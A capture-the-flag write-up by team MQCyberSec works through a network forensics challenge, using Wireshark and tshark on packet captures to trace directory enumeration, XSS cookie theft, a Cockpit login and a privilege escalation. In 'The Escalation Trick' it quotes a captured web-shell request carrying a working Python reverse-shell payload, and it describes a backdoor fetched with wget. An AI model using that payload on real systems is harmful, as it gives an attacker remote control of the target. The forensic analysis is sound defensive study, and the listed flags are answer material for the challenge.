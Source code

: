 # Attack Investigation - Networks

## Challenge

This was a multi-part challenge which unlocked further stages as you completed them. For the sake of brevity I am recording them on a singular document under a singular title instead of creating unique ones for each challenge. 

## Solve:

This challenge was solved by our team MQCyberSec.

### Server & Attacker IP

Filtering for `http` traffic we can see evidence of web directory enumeration from `192.168.1.9` to `192.168.1.10`:

![nw1](https://github.com/user-attachments/assets/186d5fdd-6aea-431b-b774-6d337186c2dd)


`KCTF{192.168.1.10_192.168.1.9} `

### The Real Admin 

Filtering for `http` traffic which doesn't include the attackers IP, we can see admin activity from `192.168.1.3`:

![nw2](https://github.com/user-attachments/assets/77402dd8-9d9b-4433-bdce-6240b0d0cbe2)


`KCTF{192.168.1.3}`


### The Intruder's Identity

Filtering for POST requests from the attacker's IP, can find credentials used to register an account:

![n3](https://github.com/user-attachments/assets/9e59e0b7-2e36-4a5a-a7e0-9940bb3652ff)


`KCTF{theexploiter_exploiter@test}`

### Compromising the Admin

Same filters, can view multiple attempts to login to `admin` and find compromised credentials after final attempt:

![nw4](https://github.com/user-attachments/assets/fb6aec37-4d94-4cd3-b4d1-c8c7dc104e85)


`KCTF{theexploiter_exploiter@test}`

### Initial Reconnaisance

To explore the tools that may have been used, my teammate `Ch1maera` used `tshark` to enumerate `User-Agents`, and found:

`93e4r0-CVE-2014-6271`

Doing a search for "93e4r0-CVE-2014-6271" led to the GitHub repo for `nikto`, a web enumeration tool.

The `User-Agent` can be found with this command:

```
./tshark.exe -r capture1.pcapng -Y "http.user_agent" -T fields -e http.user_agent | Sort-Object | Get-Unique
```

![nw5](https://github.com/user-attachments/assets/e1fb63f8-3726-4b73-93ba-a24e1b296c46)


`KCTF{nikto}`

### Stealing the Sweet

Found evidence of an XSS attack under Statistics->HTTP->Requests:

![nw6](https://github.com/user-attachments/assets/efff728c-5c54-45fb-bdf3-e5d4012a4339)


Filtering for `http` traffic that is not destined for port 80 (credit to my teammate `sealldev`) we can see HTTP packets sent from the server to the attackers IP:

![nw7](https://github.com/user-attachments/assets/f2d41ecb-c191-4f0b-8263-548f0214c2a5)


`KCTF{8881_xss}`

### The Overseer

Moving on to the second packet capture, the first batch of packets show requests to `/cockpit`:

![nw8](https://github.com/user-attachments/assets/53fb0a84-b0ce-48c5-8f67-09013721efa3)


`KCTF{cockpit}`

### The Gatekeeper

To find out the port the server listens on, just check the GET request to `/cockpit/login` above.

`KCTF{9090}`

### The Server's Identity 

Viewing the WebSocket traffic we can see the `host` in the attackers communication with the server is specified as `localhost`:

![nw9](https://github.com/user-attachments/assets/74c82661-4d90-478b-b34c-3cf6170ad639)


`KCTF{localhost.localdomain}`

### Tareq's Secret 

To find the password, filter for `http` requests to `/cockpit/login` and view last (and successful) login attempt:

![nw10](https://github.com/user-attachments/assets/0f02c211-d4c5-43cb-a424-9323b5f286b7)


`KCTF{SecurePass}`

### The Escalation Trick

Moving on to the third and final packet capture, we can filter for `http` requests and sort by length to view commands requested as URIs:

![nw11](https://github.com/user-attachments/assets/3f33caa7-49a2-4203-bb12-8f4b2cbda9a8)


```
 GET /uploads/678e2443a6725.php?cmd=export%20RHOST=%22192.168.1.9%22;export%20RPORT=5074;python3%20-c%20%27import%20sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(%22RHOST%22),int(os.getenv(%22RPORT%22))));[os.dup2(s.fileno(),fd)%20for%20fd%20in%20(0,1,2)];pty.spawn(%22sh%22)%27 HTTP/1.1
```

The command appears to be establishing a reverse shell. Following the tcp stream (credit to `sealldev`) shows attacker executing commands through this shell and reveals the tool used to escalate privileges:

![nw12](https://github.com/user-attachments/assets/adf85837-94a4-43a8-97f4-08c4ceb43775)


`KCTF{awk}`

### The Hidden Door

In the same TCP stream, we can view the commands executed by the attacker to establish a backdoor:

![nw13](https://github.com/user-attachments/assets/c9663e64-f7e6-42fe-a2f5-252497ad9828)

The attacker changes to the `root` directory, creates a hidden directory `.sys` and installs the backdoor via `wget` on port 2081.

`KCTF{/root/.sys/sys_2081}`

### Port Fiesta

In the same TCP stream, we can see the server is started on 10 different ports:

![nw14](https://github.com/user-attachments/assets/8667e2b3-2c82-45df-8095-09b36bccfd1e)


`KCTF{10}`

### The Backdoor's Whisper

Manually checking the ports from the previous question with `tcp.port == <port>`, only port 12345 has any activity:

`KCTF{12345}`

### The Unused Tool 

In the same TCP stream where we can view the attackers commands, we can see they attempted to install and run `tmux` but was unsuccessful:

nw15

nw16

`KCTF{tmux}`

### Malicious Uploads 

This challenge goes back to the first packet capture and asks for the name of the maliciously uploaded file. Since `/blog/create` has been exploited before, can check for POST requests and find `serverfile.php`:

nw17

`KCTF{serverfile.php}`

### Shell History

Apparently a malicious shell file already existed on the system. The flag asks for the date and time, suggesting an `ls` may have been used with the `l` flag showing the date/time as well as the file name (credit to `sealldev`). Going back to the attackers commands and checking for an `ls -l` proves this theory correct:

nw18

`KCTF{php-reverse-shell.php_Jan_19}`